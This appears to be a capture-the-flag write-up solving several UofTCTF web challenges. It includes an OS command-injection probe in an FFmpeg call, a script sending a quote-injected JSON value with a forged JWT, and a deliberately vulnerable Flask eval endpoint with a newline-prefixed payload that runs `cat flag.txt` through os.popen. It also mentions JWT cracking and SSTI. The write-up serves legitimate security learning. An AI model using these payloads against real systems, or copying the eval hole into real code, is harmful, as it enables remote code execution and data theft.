 | Name       | uoftctf                |
|------------|------------------------|
| URL        | [https://play.uoftctf.org/](https://play.uoftctf.org/) |
| Category   | Web                    |
| Discord    | [https://discord.com/invite/VAwyzVUt?utm_source=Discord%20Widget&utm_medium=Connect](https://discord.com/invite/VAwyzVUt?utm_source=Discord%20Widget&utm_medium=Connect) |



# 1. Voice Changer - OS Injection

This website uses FFmpeg to generate an OGG file. In this challenge, an OS injection vulnerability exists in the FFmpeg command.

![OS Injection Image](https://github.com/ACHUX21/Writeups/assets/130113878/322e6697-62b4-4cd8-98a5-86d031085db1)

Let's attempt to induce a delay in the command using `$(sleep 10)`.

![Sleep Command Image](https://github.com/ACHUX21/Writeups/assets/130113878/f7cdcc2c-f1d7-4bb5-aa2c-2ccb9d20d107)

The image reveals a 10-second delay resulting from the execution of the sleep command.

### Exploiting the Vulnerability

To exploit this vulnerability, our approach involves redirecting the flag to our webhook site:

![Webhook Image 1](https://github.com/ACHUX21/Writeups/assets/130113878/cb206e1e-dde5-4c64-8164-0c299ddf5788)

![Webhook Image 2](https://github.com/ACHUX21/Writeups/assets/130113878/4889fc03-f67a-4055-8316-86212077eb6c)

# 2. The Varsity 

### Solution:
To address the issue, generate a valid (JWT) and proceed by sending a POST request to article number 9 with this json {"issue":"9'"}

```python
import requests

url = "https://uoftctf-the-varsity.chals.io:443/register"
json={"username": "achuxer"}
reg = requests.post(url, json=json)

valid_jwt = reg.headers["Set-Cookie"].split("=")[1].split(";")[0]

session = requests.session()

_url = "https://uoftctf-the-varsity.chals.io:443/article"
_cookies = {"token": valid_jwt}
_json={"issue": "9'"}
flag = session.post(_url, cookies=_cookies, json=_json)

print(flag.json()["content"])
```

# No Code - Eval

### Source
```python
from flask import Flask, request, jsonify
import re

app = Flask(__name__)

@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.form.get('code', '')
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```
### Solution

Sending \n in the start of your payload cz re.match() will only match at the beginning of the string and not at the beginning of each line.

```python
#!/usr/bin/env python3
import requests
import string,sys
url = 'https://uoftctf-no-code.chals.io/execute'

payload = "\n__import__('os').popen('cat flag.txt').read()"

data = {
    'code': payload
}
response = requests.post(url, data=data)
print(response.text)
```


# Guestbook - Hidden Flag

By reading the html source you can see POST action directed towards a Google Spreadsheet with the parameter "sheetID"

![image](https://github.com/ACHUX21/Writeups/assets/130113878/e5c48610-12d1-4f6f-9dbc-66d4a693d78a)

After googling around,with this id you can obtain spreadsheet docs.

https://docs.google.com/spreadsheets/d/1PGFh37vMWFrdOnIoItnxiGAkIqSxlJDiDyklp9OVtoQ/edit

Following this step, you can notice two hidden rows. Once I copied the doc, I had access to the flag

#  My First App - JWT / SSTI

Solution :
  Initially, you must crack a JWT to reveal the jwt_key. Furthermore, there's an SSTI in the username field from the JWT-cookie, but with certain blacklisted characters/words.
  
  ![image](https://github.com/ACHUX21/Writeups/assets/130113878/ebca8511-d882-427b-aba0-65607fcbb5cd)

  
 ### PY:

![image](https://github.com/ACHUX21/Writeups/assets/130113878/0fe38719-200d-42f3-9ea6-93ac24841d1e)
